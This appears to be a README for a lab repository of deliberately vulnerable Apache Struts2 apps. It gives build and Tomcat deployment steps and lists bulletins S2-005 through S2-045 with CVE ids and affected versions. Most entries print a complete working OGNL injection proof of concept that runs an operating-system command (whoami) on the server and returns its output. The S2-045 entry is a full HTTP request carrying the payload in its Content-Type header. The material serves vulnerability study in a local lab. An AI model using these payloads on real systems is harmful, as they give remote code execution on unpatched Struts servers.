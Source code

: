 # 环境
Requires Java 1.8+ and Maven 3.x+

# 使用方法
1.下载
git clone https://git.oschina.net/0d/Struts2_bugs.git

2.查看远程分支
git branch -a

3.切换到分支
git checkout 分支名
如git checkout S2-045

4.打包
mvn clean package

5.部署在Tomcat中
将\target中生成的Struts2-045.war复制到Tomcat下的webapps目录中，然后开启Tomcat
访问http://127.0.0.1:8080/Struts2-045/index.action

# 相关信息

1.S2-005

CVE-2010-1870

影响版本：Struts 2.0.0 – Struts 2.1.8.1 

官方公告：http://struts.apache.org/docs/s2-005.html

POC:
http://127.0.0.1:8080/Struts2-005/index.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(h)(('\43webRootzpro\75@java.lang.Runtime@getRuntime().exec(\43req.getParameter("cmd"))')(d))&(i)(('\43webRootzproreader\75new\40java.io.DataInputStream(\43webRootzpro.getInputStream())')(d))&(i01)(('\43webStr\75new\40byte[1000]')(d))&(i1)(('\43webRootzproreader.readFully(\43webStr)')(d))&(i111)(('\43webStr12\75new\40java.lang.String(\43webStr)')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)(('\43xman.getWriter().println(\43webStr12)')(d))&(i99)(('\43xman.getWriter().close()')(d))&cmd=cmd /c whoami

2.S2-009

CVE-2011-3923

影响版本：Struts 2.0.0 -Struts 2.3.1.1

官方公告：http://struts.apache.org/docs/s2-009.html

POC:
http://127.0.0.1:8080/Struts2-009/index.action?class.classLoader.jarPath=%28%23context["xwork.MethodAccessor.denyMethodExecution"]%3d+new+java.lang.Boolean%28false%29%2c+%23_memberAccess["allowStaticMethodAccess"]%3dtrue%2c+%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew+java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char[50000]%2c%23c.read%28%23d%29%2c%23sbtest%3d%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23sbtest.println%28%23d%29%2c%23sbtest.close%28%29%29%28meh%29&z[%28class.classLoader.jarPath%29%28%27meh%27%29]

3.S2-013

CVE-2013-1966

影响版本：Struts 2.0.0 – Struts 2.3.14

官方公告：http://struts.apache.org/docs/s2-013.html

POC:
http://127.0.0.1:8080/Struts2-013/index.action?a=1${(%23_memberAccess["allowStaticMethodAccess"]=true,%23a=@java.lang.Runtime@getRuntime().exec('whoami').getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[50000],%23c.read(%23d),%23sbtest=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23sbtest.println(%23d),%23sbtest.close())}

4.S2-016 

CVE-2013-2251

影响版本：Struts 2.0.0 – Struts 2.3.15

官方公告：http://struts.apache.org/docs/s2-016.html

POC:
http://127.0.0.1:8080/Struts2-016/index.action?redirect:$%7B%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B'whoami'%7D)).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader%20(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char%5B50000%5D,%23d.read(%23e),%23matt%3d%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println%20(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()%7D

5.S2-019

CVE-2013-4316

影响版本：Struts 2.0.0 – Struts 2.3.15.1

官方公告：http://struts.apache.org/docs/s2-019.html

POC:
http://127.0.0.1:8080/Struts2-019/index.action?debug=command&expression=%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23resp=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23a=(new java.lang.ProcessBuilder(new java.lang.String[]{'whoami'})).start(),%23b=%23a.getInputStream(),%23c=new java.io.InputStreamReader(%23b),%23d=new java.io.BufferedReader(%23c),%23e=new char[1000],%23d.read(%23e),%23resp.println(%23e),%23resp.close()


6.S2-020

CVE-2014-0094

影响版本：Struts 2.0.0 – Struts 2.3.16

官方公告：http://struts.apache.org/docs/s2-020.html

POC:暂无


7.S2-032

CVE-2016-3081

影响版本：Struts 2.3.18 – Struts 2.3.28 

官方公告：http://struts.apache.org/docs/s2-032.html

POC:
http://127.0.0.1:8080/Struts2-032/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=whoami&pp=\\A&ppp=%20&encoding=UTF-8


8.S2-037

CVE-2016-4438

影响版本：Struts 2.3.20 - Struts 2.3.28.1

官方公告：http://struts.apache.org/docs/s2-037.html

POC:
http://127.0.0.1:8080/Struts2-037/orders/3/(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=whoami


9.S2-045

CVE-2017-5638

影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

官方公告：

http://struts.apache.org/docs/s2-045.html

https://cwiki.apache.org/confluence/display/WW/S2-045


POC:

POST /Struts2-045/index.action HTTP/1.1

Host: 127.0.0.1:8080

User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Connection: close

Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

Content-Length: 2
